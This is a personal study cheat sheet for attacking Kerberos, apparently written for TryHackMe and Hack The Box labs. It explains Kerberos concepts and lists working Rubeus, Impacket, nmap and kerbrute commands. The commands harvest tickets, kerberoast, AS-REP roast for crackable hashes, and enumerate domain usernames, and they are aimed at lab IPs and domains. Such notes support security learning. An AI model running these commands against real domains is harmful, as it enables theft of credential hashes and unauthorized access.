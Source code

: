 KERBEROS

https://tryhackme.com/room/attackingkerberos

Be sure to check if the target machine is vulnerable to [MS14-068](evernote:///view/154730691/s619/ebed9d85-7f8a-44d0-f0cc-bbd40894a4c9/1d460891-63f3-60f9-1414-81daf5a18a5c/)

|     |     |     |     |
| --- | --- | --- | --- |
| **KDC     >** | **AS     >** | **TGTs     >** | **TGS** |
| The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service. | The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets. | A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain. | The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain. |

- **Service Principal Name (SPN)** - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
- **KDC Long Term Secret Key (KDC LT Key) **- The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
- **Client Long Term Secret Key (Client LT Key) **- The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
- **Service Long Term Secret Key (Service LT Key) **- The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
- **Session Key** - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
- **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

Kerberos Authentication Overview -

![](https://i.imgur.com/VRr2B6w.png)

AS-REQ - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).

AS-REP - 2.) The Key Distribution Center verifies the client and sends back an encrypted TGT.

TGS-REQ - 3.) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.

TGS-REP - 4.) The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client.

AP-REQ - 5.) The client requests the service and sends the valid session key to prove the user has access.

AP-REP - 6.) The service grants access

* * *

## **RUBEUS**

**This command tells Rubeus to harvest for TGTs every 30 seconds**

Rubeus.exe harvest /interval:30

**This will dump the Kerberos hash of any kerberoastable users **

Rubeus.exe kerberoast

**Equivalent to getnpusers from impacket**

**Insert 23$ after $krb5asrep$** so that the first line will be $krb5asrep$23$User..... (Before cracking with hashcat)

Rubeus.exe asreproast

* * *

## **IMPACKET - GetNPUsers.py (require port 88 and 389)**

Get password's hash for users who do not require kerberos auth.

GetNPUsers.py -dc-ip 10.10.10.234 -request 'htb.local/'
GetNPUsers.py -dc-ip 10.10.10.234 'htb.local/' -usersfile ~/cascade/users.lst

python ./Downloads/impacket-0.9.21/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile ~/sauna/users.lst -format hashcat -outputfile ~/sauna/npusers.hashes

Some accounts like svc-admin doesn't requir any passwords so we can try adding the argument -no-pass to the command like so

GetNPUsers.py 'spookysec.local/' -dc-ip 10.10.71.129 -usersfile ./users-to-crack -format hashcat -no-pass

**Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....**

* * *

## **IMPACKET - GetUserSPNs.py**

**
**

sudo python3 GetUserSPNs.py controller.local/<User>:<Password> -dc-ip 10.10.234.1 -request

This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

* * *

## **NMAP**

Get valid username

sudo nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.LOCAL',userdb=/home/greg/sauna/users.lst 10.10.10.175

* * *

## **KERBRUTE**

**
**
Get valid users from kerberos (better than nmap)

~/toolbox/kerbrute/dist/kerbrute_linux_amd64 userenum -d htb.local -t 20 --dc 10.10.10.52 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

**
**
**
**
**
**